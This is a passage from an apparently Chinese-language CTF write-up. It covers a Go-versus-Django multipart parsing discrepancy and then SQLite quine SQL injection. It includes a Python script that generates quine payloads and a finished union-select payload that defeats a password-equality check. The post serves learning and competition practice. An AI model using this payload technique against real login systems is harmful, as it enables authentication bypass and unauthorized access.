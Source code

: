 go 只会解析 `------xxx--` 前的值，也就是返回 

```
请求的 POST 参数:
username = admin
```

而 Django 则会返回两个参数的值

```
请求的 POST 参数:
username = admin
password = 111
```

后面 sql 注入的话是打 sqlite，盲注不知道为啥打不了，然后发现能打 quine 注入，这里只判断了传入的 password 是否相同，确实也比较符合其利用场景，用文章中的脚本构造下 payload：https://blog.csdn.net/qq_35782055/article/details/130348274，稍微改下，没过滤空格，不用 repalce 为 `/**/`

```
sql = input (&#34;输入你的sql语句,不用写关键查询的信息  形如 1&#39;union select #\n&#34;)
sql2 = sql.replace(&#34;&#39;&#34;,&#39;&#34;&#39;)
base = &#34;replace(replace(&#39;.&#39;,char(34),char(39)),char(46),&#39;.&#39;)&#34;
final = &#34;&#34;
def add(string):
    if (&#34;--&#43;&#34; in string):
        tem = string.split(&#34;--&#43;&#34;)[0] &#43; base &#43; &#34;--&#43;&#34;
    if (&#34;#&#34; in string):
        tem = string.split(&#34;#&#34;)[0] &#43; base &#43; &#34;#&#34;
    return tem
def patch(string,sql):
    if (&#34;--&#43;&#34; in string):
        return sql.split(&#34;--&#43;&#34;)[0] &#43; string &#43; &#34;--&#43;&#34;
    if (&#34;#&#34; in string):
        return sql.split(&#34;#&#34;)[0] &#43; string &#43; &#34;#&#34;

res = patch(base.replace(&#34;.&#34;,add(sql2)),sql).replace(&#34;&#39;.&#39;&#34;,&#39;&#34;.&#34;&#39;)

print(res)
```

最后经尝试发现是两列，因此传入 `1&#39; union select 1,2,--&#43;` ，得到 payload

```
1&#39; union select 1,2,replace(replace(&#39;1&#34; union select 1,2,replace(replace(&#34;.&#34;,char(34),char(39)),char(46),&#34;.&#34;)--&#43;&#39;,char(34),char(39)),char(46),&#39;1&#34; union select 1,2,replace(replace(&#34;.&#34;,char(34),char(39)),char(46),&#34;.&#34;)--&#43;&#39;)--&#43;
```

![image-20250310222255991](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174931998.png)





---

> 作者: 6s6  
> URL: http://localhost:1313/posts/c1e7c5b/  

